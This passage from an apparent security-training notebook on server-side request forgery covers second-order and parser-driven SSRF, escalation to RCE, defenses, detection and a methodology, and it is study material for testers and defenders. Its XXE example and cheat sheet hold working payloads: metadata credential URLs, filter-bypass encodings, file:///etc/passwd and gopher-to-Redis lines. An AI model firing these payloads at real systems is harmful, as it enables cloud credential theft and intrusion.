the finding's severity is the *most valuable* thing on that map. A "reflected image fetch" sounds
minor until the map shows it can reach `169.254.169.254` and return the body, at which point it's a
credential-theft critical. This is why two SSRFs with identical mechanics can be rated Low and Critical
respectively: the difference is entirely in the network position of the server and what the egress
allows. When reporting, make the reachability explicit — "from this SSRF I reached X, Y, and retrieved
Z" — so the severity is grounded in demonstrated reach rather than the fetch primitive alone.

**CTF relevance:** SSRF challenges commonly require reaching an "internal" flag service or a mock
`169.254.169.254`, often behind a filter you must bypass with alt IP encodings or a redirect — exactly
Parts 5–6.

## Part 10: Second-Order SSRF and SSRF Hidden in Parsers

Not all SSRF is a visible "url=" parameter. Two subtler classes account for many real findings and
are worth testing deliberately.

**Second-order (stored) SSRF.** The attacker-controlled URL isn't fetched immediately; it's *stored*
and fetched later by a *different* server-side process — a background job, an admin previewing a
record, a report generator, a webhook dispatcher. You submit `http://169.254.169.254/...` as your
"profile website", "avatar URL", "webhook endpoint", or "callback", and nothing happens at submit
time; the SSRF fires when the backend later processes it. This is the SSRF analogue of stored XSS
(Notebook 24) — the payload and the trigger are separated in time and often in privilege (the
processor may run with more internal access than the request handler). Detection: plant an OOB URL
(Collaborator) in every field that *looks* like it could be fetched later and wait — a delayed
interaction, possibly from a *different* internal IP, reveals second-order SSRF.

**SSRF via file/document parsers.** Many "process this file" features fetch remote resources during
parsing, giving SSRF without any URL field:

- **XXE (XML External Entities)** — an XML parser that resolves external entities can be pointed at
  internal URLs: `<!ENTITY x SYSTEM "http://169.254.169.254/...">`. XXE is a first-class SSRF (and
  file-read) vector; any XML/SOAP/SVG/DOCX/XLSX intake is a candidate.
- **SVG / image processors** — SVG can reference external resources; ImageMagick's historical
  "ImageTragick" and SVG `<image href>` fetches drive SSRF.
- **PDF generators / headless browsers** — server-side HTML-to-PDF (wkhtmltopdf, headless Chrome) and
  screenshotters render attacker HTML that can ``/`fetch` internal URLs — a very common
  modern SSRF, since the renderer runs server-side with internal reach.
- **Markdown/HTML sanitizers that fetch, link-unfurlers, and OAuth/OIDC discovery** (`.well-known`
  fetches) — all can be steered.



**XXE-driven SSRF example** (the parser makes the request):

```xml
<?xml version="1.0"?>
<!DOCTYPE r [ <!ENTITY x SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/"> ]>
<r>&x;</r>
<!-- If the app echoes the parsed value, the metadata comes back (in-band); else use a blind/OOB XXE. -->
```

**Testing implication:** SSRF isn't only where you see a URL field — it's anywhere the server fetches
on your behalf, including deferred and parser-driven paths. Seed OOB payloads broadly and watch for
delayed or parser-sourced interactions. **Bug-bounty relevance:** HTML-to-PDF and avatar/webhook
second-order SSRF are among the most common accepted SSRF precisely because they're missed by
testers looking only for `url=`.

## Part 11: Chaining SSRF — To RCE, Deeper Pivots, and Combined Bugs

SSRF's severity comes from what it chains into. The escalation paths worth pursuing once SSRF is
confirmed:

**SSRF → cloud account compromise** (Part 5) is the flagship: metadata → IAM creds → role assumption.
On Kubernetes, SSRF to the kubelet API (`:10250`), the API server, or the cloud metadata for the node
role can escalate to cluster compromise; SSRF to a container orchestrator's unauthenticated endpoints
(Docker `:2375`, etcd `:2379`, Consul `:8500`) can mean container/host takeover.

**SSRF → RCE via internal services.** `gopher://` to unauthenticated **Redis** (`6379`) is the classic
SSRF-to-RCE: write a cron job or a webshell via `CONFIG SET dir` + `SET` + `SAVE`. Similar payloads
target unauthenticated Memcached, and crafted gopher HTTP can hit internal admin APIs that run code.
SSRF into an internal CI/build server or an unauthenticated Jenkins/Actuator can execute code
directly.

**SSRF → internal SSRF/relay.** Reaching an internal proxy or another SSRF-able internal app lets you
pivot further — chaining fetches to reach deeper network segments the first server can't (an SSRF
inside an SSRF).

**SSRF + other bugs.** SSRF pairs with: **CORS** (Notebook 24 Ch5 — read internal APIs that
wildcard-trust origins), **open redirect** (to bypass URL filters, Part 6), **XXE** (as an SSRF
delivery vector, Part 10), and **request smuggling** (to reach internal virtual hosts). Recognising
these combinations is what turns a "medium SSRF" into a "critical".



**Red team relevance:** SSRF is frequently the *initial access* that exposes the internal estate;
treat a confirmed SSRF as a foothold and enumerate what the server can reach (cloud metadata,
orchestrators, service mesh) — but within authorized scope, and without *using* any credentials you
retrieve. **The severity framing for reports:** always chase and document the highest *reachable*
impact (credentials retrievable? internal admin reachable? RCE plausible via gopher?) because SSRF
severity is defined by the reachable target set, not by the fetch itself.

## Part 12: Detection & Defense Angle

SSRF defense is layered around *network egress control* and *correct URL validation*. In priority
order:

**1. Validate the resolved IP against an allow-list, not a string blocklist.** Resolve the hostname,
then reject the request if the resolved address is loopback, private, link-local, or reserved — and
prefer an *allow-list of permitted destinations* over a deny-list. Blocklists lose to the encoding/
DNS/parser bypasses in Part 6.

**2. Resolve-once and pin the connection (defeats DNS rebinding).** Resolve the hostname a single
time, validate that IP, and connect to *that* IP (not re-resolve), or re-validate the actually-
connected address. This closes the TOCTOU rebinding window.

**3. Allow-list schemes and disable dangerous ones.** Permit only `http`/`https`; never let user input
select `file://`, `gopher://`, `dict://`, etc.

**4. Disable or strictly re-validate redirects.** Don't blindly follow redirects; if you must, apply
the same resolved-IP validation to each hop.

**5. Enforce IMDSv2 and lock down the metadata service.** On AWS, require **IMDSv2** (session-oriented:
a `PUT` obtains a token, which must be sent as a header on each `GET`, and the response has a hop
limit) so simple GET-only SSRF can't read credentials; set the **hop limit to 1** so containers can't
reach it through the host; disable IMDSv1. Scope IAM roles to least privilege so a stolen credential
is limited. On GCP/Azure the header requirement helps, but still restrict egress.

**6. Network egress control.** The strongest backstop: restrict which destinations app servers may
connect to at the network layer (egress firewall / security groups / a forward proxy allow-list), and
block instance access to `169.254.169.254` where not needed. Defense-in-depth so even a bypassed
app-layer filter can't reach internal targets.

**7. Don't reflect fetched responses** back to the user where avoidable (limits in-band data
exfiltration), and time-box/limit fetches.

**Reference: correct SSRF-safe fetch, and the anti-patterns it replaces.** The defense is a fetch
wrapper that resolves, validates the resolved IP, pins, and restricts schemes/redirects:

```python
import ipaddress, socket, requests
from urllib.parse import urlparse

BLOCKED = lambda ip: (ip.is_private or ip.is_loopback or ip.is_link_local
                      or ip.is_reserved or ip.is_multicast)

def ssrf_safe_get(url, allow_hosts=None):
    u = urlparse(url)
    if u.scheme not in ("http", "https"):
        raise ValueError("scheme not allowed")                 # no file:// gopher:// dict://
    host = u.hostname
    if allow_hosts is not None and host not in allow_hosts:
        raise ValueError("host not in allow-list")             # prefer an allow-list of destinations
    ip = ipaddress.ip_address(socket.gethostbyname(host))      # resolve ONCE
    if BLOCKED(ip):
        raise ValueError(f"blocked address {ip}")              # validate the RESOLVED ip
    # pin to the validated ip; forbid redirects (re-validate if you must follow them)
    return requests.get(u._replace(netloc=str(ip)).geturl(),
                        headers={"Host": host}, allow_redirects=False, timeout=3)
```

The anti-patterns this replaces, each a real bug: `if "169.254" in url: block` (string blocklist —
Part 6 encodings defeat it); `requests.get(url)` with default `allow_redirects=True` (redirect bypass);
resolving for a check but letting `requests` re-resolve at fetch time (DNS rebinding); and accepting
any scheme (file/gopher smuggling). Layer this app-layer control with **network egress restrictions**
and **IMDSv2** so no single failure reaches the metadata service.

**Detection signals:**

| Signal | Where | Indicates |
|---|---|---|
| App server making requests to `169.254.169.254` / metadata hostnames | Egress/flow logs, IMDS access logs | SSRF-driven credential theft attempt |
| Outbound requests from app to internal/private IPs or odd ports | Egress/flow logs | SSRF internal scanning/access |
| URL parameters containing IPs, alt encodings, `@`, `file:`/`gopher:` | WAF/app logs | SSRF probing / bypass attempts |
| DNS lookups for attacker OAST domains from server IPs | DNS logs | Blind-SSRF confirmation traffic |
| Use of IMDS credentials from an IP outside the instance | CloudTrail / cloud audit | Stolen-credential use (post-SSRF) |

**Blue-team usage:** monitor egress from app tiers for any connection to the metadata IP or private
ranges it shouldn't touch, and alert on IMDS credential use from a source that isn't the instance
(CloudTrail's `sourceIPAddress` vs the instance) — the Capital One tell. **IR use case:** on suspected
SSRF, pull the app's outbound connection logs for metadata/internal destinations and correlate with the
suspicious inbound request that carried the malicious URL; if credentials were exposed, rotate the
instance role immediately and hunt for their use in cloud audit logs.

## Part 13: Common Pitfalls & Gotchas

- **String blocklists for internal IPs.** Defeated by decimal/octal/hex/IPv6 encodings, DNS names,
  and parser tricks — validate the *resolved IP*, allow-list destinations.
- **Resolve-then-fetch without pinning.** DNS rebinding flips a safe answer to an internal one; resolve
  once and connect to that IP.
- **Following redirects blindly.** A benign initial URL redirects to the metadata IP; disable or
  re-validate redirects.
- **Allowing arbitrary schemes.** `file://`/`gopher://` turn SSRF into file read / internal RCE;
  allow-list `http(s)` only.
- **Assuming GCP/Azure header requirements save you.** Header-forwarding SSRF or header injection can
  supply `Metadata-Flavor`/`Metadata: true`; still restrict egress and enforce IMDSv2-equivalents.
- **IMDSv1 left enabled.** The Capital One mistake; enforce IMDSv2 and hop-limit 1.
- **Over-privileged instance roles.** A stolen credential is only as dangerous as the role; least
  privilege limits blast radius.
- **Using retrieved cloud credentials.** Retrieving proves impact; *using* them is unauthorized —
  report and stop.
- **Ignoring blind SSRF.** No app response ≠ no bug; confirm OOB and pursue internal effects/timing.

## Part 14: Final Revision / Summary

- SSRF induces the **server** to make a request to an attacker-chosen destination (Part 1); the danger
  is that the request comes from *inside* the trust boundary, reaching internal services the outside
  attacker can't.
- **In-band** SSRF returns the fetched content; **blind** SSRF returns nothing and is confirmed
  **out-of-band** with **Burp Collaborator / interactsh** (Parts 2–3).
- Escalation targets: **localhost/internal services** (admin panels, Redis, `/actuator`) and, above
  all, the **cloud metadata service `169.254.169.254`** — IMDSv1 credential theft → IAM role assumption
  → account compromise (Parts 4–5), the Capital One chain.
- **Filter bypasses** (Part 6): alt IP encodings (decimal/octal/hex/IPv6), DNS-to-internal and **DNS
  rebinding**, **redirect** following, and **URL-parser confusion** (`user@host`, `#@`). **Protocol
  smuggling** (Part 7): `file://` (read files), `gopher://` (raw TCP → Redis RCE).
- **Defend** (Part 12): validate the **resolved IP** against an **allow-list** (not a string
  blocklist), **resolve-once and pin** (defeats rebinding), allow-list **schemes**, disable/re-validate
  **redirects**, enforce **IMDSv2** + hop-limit-1 + least-privilege roles, and control **network
  egress**.
- **Hidden vectors** (Part 10) — second-order (stored) SSRF fired by a later background/admin process,
  and parser-driven SSRF via XXE, SVG/image processing, and HTML-to-PDF renderers — mean SSRF lives
  anywhere the server fetches on your behalf, not only in a visible `url=` parameter.
- **Severity is the reachability map** (Part 11): rate an SSRF by the most valuable target the server
  can reach — metadata/credentials, internal admin, gopher→Redis RCE, orchestrator control planes —
  not by the fetch primitive itself.

## Part 14b: An SSRF Testing Methodology

A fixed routine turns SSRF hunting from luck into coverage:

1. **Find every server-side fetch.** Enumerate features that take a URL or fetch a resource: webhooks,
   URL previews/unfurlers, "import from URL", avatar/image URLs, PDF/screenshot generators, XML/SVG/
   document intake, integrations, `.well-known`/OIDC discovery. Include *stored* fields fetched later
   (second-order, Part 10).
2. **Seed OOB payloads everywhere.** Put a unique Collaborator/interactsh subdomain in each candidate
   and trigger/wait. A hit (immediate or delayed) confirms SSRF and tells you in-band vs blind.
3. **Determine visibility.** Does the app reflect the fetched body (in-band → read internal responses)
   or nothing (blind → OOB effects, timing oracles)?
4. **Probe the reachability map.** From the server, try loopback (`127.0.0.1:PORT`), private ranges,
   and the metadata IP; port-scan internal hosts via timing/status differences.
5. **Go for metadata.** Test AWS `169.254.169.254/latest/meta-data/...` and GCP/Azure endpoints (with
   their required headers if you can influence headers) — the highest-impact target.
6. **Bypass filters systematically.** If blocked, work through alt IP encodings, DNS-to-internal and
   rebinding, redirects, and parser-confusion forms (Part 6).
7. **Try scheme smuggling.** `file://` for file read, `gopher://` for internal protocol/RCE where the
   client supports it (Part 7).
8. **Chase the chain and report reach.** Document the most valuable reachable target; retrieve
   credentials to prove impact but do not use them; frame severity by the reachability map.

This sequence covers in-band and blind, direct and second-order, and the full escalation ladder — run
it the same way each engagement and SSRF stops slipping past.

## Part 15: Cheat Sheet / Quick Reference

**Confirm SSRF**

```text
url=http://<your-collaborator-or-listener>/probe     # OOB hit from target IP = confirmed (even blind)
```

**Metadata targets**

```text
AWS   http://169.254.169.254/latest/meta-data/iam/security-credentials/<role>
GCP   http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token
      (header: Metadata-Flavor: Google)
Azure http://169.254.169.254/metadata/instance?api-version=2021-02-01   (header: Metadata: true)
```

**Bypass 169.254.169.254 / 127.0.0.1**

| Trick | Example |
|---|---|
| Decimal | `http://2852039166/` (metadata), `http://2130706433/` (loopback) |
| Hex | `http://0xa9fea9fe/`, `http://0x7f000001/` |
| Octal / short | `http://0177.0.0.1/`, `http://127.1/` |
| IPv6 | `http://[::1]/`, `http://[::ffff:169.254.169.254]/` |
| DNS to internal | `http://169.254.169.254.nip.io/` |
| Redirect | host a `302 → http://169.254.169.254/...` |
| Parser confusion | `http://expected.com@169.254.169.254/`, `http://169.254.169.254#@expected.com` |
| DNS rebinding | hostname whose 2nd resolution → `169.254.169.254` (rbndr/singularity) |
| Enclosed/short | `http://0/`, `http://[::ffff:a9fe:a9fe]/` |

**Schemes**

```text
file:///etc/passwd        file:///proc/self/environ      # local file read
gopher://10.0.0.9:6379/_<CRLF-separated Redis commands>   # raw TCP → Redis RCE
dict://10.0.0.9:6379/info                                 # banner-grab / interact with a service
```

**Defense map**

| Control | Stops |
|---|---|
| Validate resolved IP vs allow-list | encoding/DNS/parser bypasses |
| Resolve-once + pin connection | DNS rebinding |
| Scheme allow-list (`http`/`https`) | file/gopher/dict smuggling |
| No/redirect re-validation | redirect bypass |
| IMDSv2 + hop-limit 1 + least-priv role | metadata credential theft |
| Egress firewall / forward proxy | reaching internal/metadata at all |
| Don't reflect fetched bodies | in-band data exfiltration |
| Least-privilege IAM role | blast radius of stolen credentials |

## Part 16: Practice Labs & Resources

- **PortSwigger Web Security Academy — SSRF (all labs):** "Basic SSRF against the local server" /
  "against another back-end system", "SSRF with blacklist-based input filter", "SSRF with filter
  bypass via open redirection", "Blind SSRF with out-of-band detection", "Blind SSRF with Shellshock
  exploitation", and "SSRF with whitelist-based input filter". One-to-one with Parts 3–6. Free, with
  Burp Collaborator integration.
- **Burp Collaborator / ProjectDiscovery interactsh:** the OOB detection tooling (Part 3); practice
  confirming blind SSRF.
- **flAWS / flAWS2 (cloud CTF) and CloudGoat "ec2_ssrf" scenario:** hands-on SSRF → IMDS →
  IAM-credential escalation in real AWS-style environments (Part 5).
- **SSRFmap and Gopherus:** tooling for automating SSRF exploitation and building gopher payloads
  (Redis/MySQL/etc.) — Part 7.
- **OWASP SSRF Prevention Cheat Sheet & WSTG-SSRF:** authoritative defense and testing references.
- **Disclosed HackerOne reports (filter `ssrf`):** accepted metadata-theft and internal-access
  write-ups for impact framing and safe-PoC style.

**Practice questions**

1. A "URL preview" feature blocks the string `169.254.169.254`. Give three different URLs that reach
   the AWS metadata service anyway, and explain the parsing/resolution reason each one bypasses the
   string filter.
2. Explain the difference between in-band and blind SSRF, and describe exactly how you'd confirm a
   blind SSRF using Burp Collaborator, including what a DNS-only interaction versus a full HTTP
   interaction tells you.
3. Walk through the SSRF → cloud-credential-theft chain on AWS IMDSv1 step by step, name the endpoints
   involved, and explain the two specific properties of IMDSv2 that break this chain.
4. An app validates that a user-supplied hostname resolves to a public IP, then fetches it. Describe
   the DNS-rebinding attack that defeats this, why it works, and the server-side change that fixes it.
5. You retrieve live IAM credentials via an SSRF on an authorized bug-bounty target. Describe precisely
   what you should and should not do next, and what to include in the report to prove critical impact
   without exceeding authorization.
6. An avatar-upload feature accepts an image URL, stores it, and an admin panel later renders it. No
   interaction happens at upload time. Name this SSRF sub-class, explain how you'd detect it with an
   OOB tool, and why the interaction might arrive from a different internal IP than the web tier.
7. Describe how `gopher://` converts an SSRF into remote code execution against an unauthenticated
   internal Redis, the general shape of the payload, and the two server-side controls (one network,
   one on Redis) that would prevent it.

With this chapter the Server-Side notebook opens on its most impactful class: a fetch primitive that
reaches the trusted interior and, in the cloud, the credential store. The next chapters continue the
server-side theme — file upload and web shells (turning an upload into code execution), then path
traversal, LFI, and RFI (turning a filename into file read and, sometimes, execution) — each another
way attacker-controlled input steers a server operation it was never meant to.
